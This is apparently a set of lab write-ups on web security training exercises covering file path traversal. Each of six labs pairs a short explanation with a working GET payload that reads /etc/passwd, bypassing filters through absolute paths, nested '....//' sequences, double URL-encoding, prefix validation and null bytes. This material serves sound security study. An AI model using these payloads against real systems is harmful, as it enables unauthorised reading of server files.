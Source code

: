 # Path Traversal

### LAB: File path traversal, simple case
This lab contains a path traversal vulnerability in the `GET` request to the  product images: 

    GET /image?filename=../../../etc/passwd

### LAB: File path traversal, traversal sequences blocked with absolute path bypass
Same as above lab but the application blocks traversal sequences. Instead it treats the supplied filename as being relative to a default working directory. Use absolute path to bypass that:

    GET /image?filename=/etc/passwd

### LAB: File path traversal, traversal sequences stripped non-recursively
The application strips path traversal sequences from the user-supplied filename before using it. So `....//` would be stripped to `../` which is a valid path traversal sequence:

    GET /image?filename=....//....//....//etc/passwd

### LAB: File path traversal, traversal sequences stripped with superfluous URL-decode
The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it. Double-encode `../../../etc/passwd` to bypass this:

    GET /image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34

### LAB: File path traversal, validation of start of path
The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder. Use path traversal to bypass that:

    GET /image?filename=/var/www/images/../../../etc/passwd

### LAB: File path traversal, validation of file extension with null byte bypass
The application validates that the supplied filename ends with the expected file extension. Use null bytes (`%00`) to satisfy that and also ignore it when traversing path:

    GET /image?filename=../../../etc/passwd%00.jpg
